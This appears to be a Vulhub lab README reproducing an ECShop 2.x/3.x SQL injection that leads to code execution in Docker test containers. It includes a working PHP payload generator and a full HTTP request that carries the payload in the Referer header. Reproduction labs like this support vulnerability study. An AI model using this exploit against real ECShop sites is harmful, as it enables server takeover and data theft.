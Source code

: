 # ECShop 2.x/3.x SQL Injection / Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ECShop is a B2C independent shop system for companies and individuals to quickly build personalized online store. This system is a cross-platform open source program based on PHP language and MYSQL database architecture.

In 2017 and previous versions, there was a SQL injection vulnerability that could inject payload and eventually lead to code execution vulnerabilities. The latest version of 3.6.0 has fixed the vulnerability, and vulhub uses its latest version 2.7.3 and 3.6.0 non-latest version versions to reproduce the vulnerability.

Reference link:

- https://paper.seebug.org/691/

## Environment setup

Run the following commands to start environment

```
docker-compose up -d
```

After the environment start, visit `http://your-ip:8080`, you will see the 2.7.3 installation page. Visit `http://your-ip:8081`, you will see the 3.6.0 installation page.

Install both of them, mysql address is `mysql`, mysql account and password are `root`, the database name is free to fill in, but the database names of 2.7.3 and 3.6.0 can not be the same. 

As the picture shows:

![](0.png)

## Exploit

There is a script that can generate POC for 2.x and 3.x:

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

Put POC in the HTTP-Referer:

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Result of 2.x:

![](1.png)

Result of 3.x:

![](2.png)
